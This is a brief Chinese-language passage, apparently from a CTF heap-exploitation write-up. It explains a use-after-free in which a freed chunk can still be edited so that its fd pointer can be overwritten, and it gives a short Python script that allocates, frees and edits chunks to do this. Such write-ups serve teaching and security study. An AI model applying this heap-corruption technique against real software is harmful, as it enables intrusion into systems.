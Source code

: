 
查看堆块发现其中的fd指针是空的，所以在上图bin中它指向了0x0。


![upload successful](/images/pasted-51.png)



漏洞原理：此时我仍然可以edit 0号块的堆块，并且往fd指针写入内容。

脚本如下

```python
add(0,0x68)
add(1,0x68)
add(2,0x68)
free(0)
edit(0,0x20,'a'*0x10+'c'*0x10)
```
